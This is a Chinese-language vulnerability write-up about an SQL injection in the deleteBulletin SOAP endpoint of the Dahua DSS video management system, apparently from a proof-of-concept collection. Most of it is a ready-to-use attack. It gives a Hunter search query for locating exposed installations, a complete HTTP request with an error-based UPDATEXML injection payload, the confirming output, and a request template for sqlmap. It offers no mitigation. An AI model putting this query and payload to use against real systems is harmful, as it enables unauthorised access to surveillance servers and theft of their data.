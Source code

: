 # 大华 DSS 视频管理系统deleteBulletin存在SQL注入漏洞

# 一、漏洞简介
大华 DSS 视频管理系统deleteBulletin存在SQL注入漏洞。

# 二、影响版本
+ 大华 DSS 视频管理系统

# 三、资产测绘
+ hunter：`app.name=="Dahua 大华 DSS 视频管理系统"`

![1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc.png](./img/GZOXqaqQQLQw2K7e/1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc-783855.png)

+ 登录页面

![1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590.png](./img/GZOXqaqQQLQw2K7e/1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590-487732.png)

# 四、漏洞复现
```plain
POST /portal/services/itcBulletin HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0F29FE3B0C2BF1E508A7119E327E2B44; JSESSIONID=D08F471237625640BE6F9DE648EC1EE6
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 436

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:itc="http://itcbulletinservice.webservice.dssc.dahua.com">
   <soapenv:Header/>
   <soapenv:Body>
      <itc:deleteBulletin>
         <!--type: string-->
         <netMarkings>(UPDATEXML(5791,CONCAT(0x2e,0x716b706a71,(SELECT (ELT(5791=5791,1))),0x716a707a71),1058))</netMarkings>
      </itc:deleteBulletin>
   </soapenv:Body>
</soapenv:Envelope>
```

![1705141455973-c800e162-98db-44fe-911e-6cd0f90f3cd6.png](./img/GZOXqaqQQLQw2K7e/1705141455973-c800e162-98db-44fe-911e-6cd0f90f3cd6-633800.png)

```plain
qkpjq1qjpzq
```

sqlmap

```plain
POST /portal/services/itcBulletin HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0F29FE3B0C2BF1E508A7119E327E2B44; JSESSIONID=D08F471237625640BE6F9DE648EC1EE6
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 346

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:itc="http://itcbulletinservice.webservice.dssc.dahua.com">
   <soapenv:Header/>
   <soapenv:Body>
      <itc:deleteBulletin>
         <!--type: string-->
         <netMarkings>gero et</netMarkings>
      </itc:deleteBulletin>
   </soapenv:Body>
</soapenv:Envelope>
```

![1705141497116-edc5d6fd-4ef0-4ca2-9084-2590cdabbc57.png](./img/GZOXqaqQQLQw2K7e/1705141497116-edc5d6fd-4ef0-4ca2-9084-2590cdabbc57-522695.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xdk0wmobv78llhqb>